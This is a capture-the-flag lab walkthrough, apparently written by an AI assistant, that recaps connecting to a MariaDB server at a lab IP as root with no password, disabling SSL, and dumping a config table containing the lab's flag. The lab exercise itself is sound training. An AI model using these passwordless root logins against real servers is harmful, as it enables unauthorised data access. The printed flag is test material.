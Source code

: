 # MySQL

#### **1. Tested Connectivity to the Target**

*   You used `ping` to test if the target server (`10.129.232.40`) was reachable:

    ```bash
    ping 10.129.232.40
    ```

    * Output showed intermittent connectivity with **33.3% packet loss**, but the server was reachable.

***

#### **2. Attempted MySQL Connection**

*   You tried connecting to the MySQL server using the `mysql` command:

    ```bash
    mysql -h 10.129.232.40 -u root
    ```

    * Result: **Error 2026** (TLS/SSL error), indicating the client attempted an SSL connection, but the server doesn’t support SSL.

***

#### **3. Troubleshot SSL Issues**

*   Attempted to disable SSL using the `--ssl-mode` option:

    ```bash
    mysql -h 10.129.232.40 -u root --ssl-mode=disabled
    mysql -h 10.129.232.40 -u root --ssl-mode=DISABLED
    ```

    * Both attempts failed with `unknown variable` errors, as `--ssl-mode` is not supported by your MariaDB client.
*   Successfully disabled SSL using the `--ssl=FALSE` option:

    ```bash
    mysql -h 10.129.232.40 -u root --ssl=FALSE
    ```

    * This successfully connected to the MariaDB server.

***

#### **4. Explored the MariaDB Server**

Once connected, you executed the following SQL queries:

**A. Listed Available Databases**

```sql
SHOW DATABASES;
```

* Output:
  * `htb`
  * `information_schema`
  * `mysql`
  * `performance_schema`

**B. Selected the Target Database (`htb`)**

```sql
USE htb;
```

* This switched your context to the `htb` database.

**C. Listed Tables in the `htb` Database**

```sql
SHOW TABLES;
```

* Output:
  * `config`
  * `users`

**D. Queried the `config` Table**

1.  Initial error due to incorrect query format:

    ```sql
    select * from config
    ```

    * Result: SQL syntax error.
2.  Correct query:

    ```sql
    SELECT * FROM config;
    ```

    *   Output:

        ```
        +----+-----------------------+----------------------------------+
        | id | name                  | value                            |
        +----+-----------------------+----------------------------------+
        |  1 | timeout               | 60s                              |
        |  2 | security              | default                          |
        |  3 | auto_logon            | false                            |
        |  4 | max_size              | 2M                               |
        |  5 | flag                  | 7b4bec00d1a39e3dd4e021ec3d915da8 |
        |  6 | enable_uploads        | false                            |
        |  7 | authentication_method | radius                           |
        +----+-----------------------+----------------------------------+
        ```

***

#### **Key Outcomes**

* You successfully connected to the MySQL/MariaDB server after disabling SSL.
* You enumerated the `htb` database and its tables.
*   You retrieved the contents of the `config` table, including the **flag**:

    ```
    7b4bec00d1a39e3dd4e021ec3d915da8
    ```

***

#### **Summary of Important Commands**

1.  Ping to test connectivity:

    ```bash
    ping 10.129.232.40
    ```
2.  Connect to the MariaDB server without SSL:

    ```bash
    mysql -h 10.129.232.40 -u root --ssl=FALSE
    ```
3.  SQL queries executed:

    ```sql
    SHOW DATABASES;
    USE htb;
    SHOW TABLES;
    SELECT * FROM config;
    ```

Let me know if you need further clarification or assistance! 🚀
